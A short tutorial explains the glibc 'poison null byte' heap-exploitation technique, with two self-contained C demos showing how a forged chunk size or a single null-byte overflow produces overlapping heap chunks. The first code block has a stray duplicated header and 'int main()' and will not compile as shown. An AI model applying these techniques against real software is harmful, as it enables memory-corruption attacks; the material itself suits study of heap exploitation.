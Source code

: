 # Poison null byte
> LongChampion, 16/03/2020

# Simple version: arbitrary overwrite
In this simple sersion, we can overwrite next chunk header with any content because of an overflow, let see what will happen:
```
#include <stdlib.h>

int main()
#include <stdlib.h>
#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);
    void *c = malloc(0x100 - 8);

    struct Chunk *b_header = (struct Chunk *) (b - 0x10);
    b_header->size = 0x200 | PREV_INUSE;

    struct Chunk *f_header = (struct Chunk *) (b + 0x200 - 0x10);
    f_header->size = 0x200 | PREV_INUSE;

    free(b);
    b = malloc(0x200 - 8);
}
```
First, we overflow chunk `a` to set size of chunk `b` to 0x200 | 0x1. We must set PREV_INUSE flag or `free` will merge chunk `b` with chunk `a` when chunk `b` is freed. Then, we create a fake chunk at offset 0x200 behind chunk `b`. This size fake chunk must equal to fake size of chunk `b` (it's is 0x200 in the code above). Again, the PREV_INUSE flag is also necessary: you can free a chunk if is not in use. The chunk `c` very inportant: it is both the victim chunk to be overlapping and the "pivot" chunk to prevent chunk `b` become the top chunk, which we can not free.  
Finally, free chunk `b`, it will be pushed to smallbin of size 0x200. When we call `malloc(0x200 - 8)`, we recieve chunk `b` again but with BIGGER SIZE and we are able to overwrite to chuck `c`.

# Reality version: only one nullbyte overflow
This error is common but is harder to exploit.
```
#include <stdlib.h>
#include <malloc.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x210 - 8);
    void *c = malloc(0x100 - 8);

    free(b);

    *(char *) (a + malloc_usable_size(a)) = 0x00;
    struct Chunk *f_chunk = (struct Chunk *) (b + 0x200 - 0x10);
    f_chunk->pre_size = 0x200;

    void *b1 = malloc(0x100 - 8);
    void *b2 = malloc(0x60 - 8);

    free(b1);
    free(c);

    b = malloc(0x400 - 8);
}
```

> I highly recommend read [this](https://go.contextis.com/rs/140-OCV-459/images/Glibc_Adventures-The_Forgotten_Chunks.pdf) for visualization of this attack.

This attack is very similar to the last one except the followings:
- We modify chunk `b` AFTER it have been freed.
- The nullbyte DECREASE size of chunk `b` (0x00 is the smallest byte lol)
- The size of chunk `b1` must strictly LERGER than max size of fastbin
- After `free(c)`, chunk `b` is topchunk, so any malloc with size larger than size of last_remeaning_chunk will return `b`. (last_remeaning_chunk is the chunk remain in unsorted_bin when we call allocate `b2`)

## NOTE
- **DON'T MAKE YOUR LIFE OBSTRUCT BY YOURSELF**:  
    In simple version, we set
    > `f_chunk->size = 0x200 | PREV_INUSE`

    but in reality version, we set
    > `f_chunk->pre_size = 0x200`.
- This attack doesn't work against tcache_bin and fastbin because their mechanism are different from smallbin mechanism.
